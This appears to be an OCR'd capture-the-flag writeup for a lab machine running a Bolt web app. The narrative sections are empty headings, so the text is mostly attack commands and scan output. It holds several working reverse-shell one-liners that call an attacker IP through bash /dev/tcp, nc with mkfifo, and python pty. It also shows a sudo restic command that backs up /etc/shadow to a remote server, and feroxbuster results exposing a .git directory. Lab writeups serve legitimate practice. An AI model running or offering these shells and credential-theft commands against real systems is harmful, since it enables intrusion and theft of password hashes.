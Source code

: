 restic -r restShit dump latest /tmp/restOut > restore.tar
chown -R bolt.bolt /tmp/restShit

```
sudo restic backup -r rest:http://localhost/backup /etc/shadow
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.159 1234 >/tmp/f
export RHOST="10.10.14.18";export RPORT=80;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```  

* web server `DocumentRoot /var/www/html`.
## <span style="color:#9933FF">How Did I Solve the Machine 😎🥳 


<br/><br/>



## <span style="color:#9933FF">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:#9933FF">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:#9933FF">Writeups ✍🏽📓   


<br/><br/>
* feroxbuster's results  
```
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git => http://10.10.10.159/bolt/.git/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app => http://10.10.10.159/bolt/app/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/branches => http://10.10.10.159/bolt/.git/branches/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/branches/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/branches/.htpasswd
200      GET       11l       29w      251c http://10.10.10.159/bolt/.git/config
200      GET        1l       10w       73c http://10.10.10.159/bolt/.git/description
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache => http://10.10.10.159/bolt/app/cache/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/cache/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/extensions => http://10.10.10.159/bolt/extensions/
```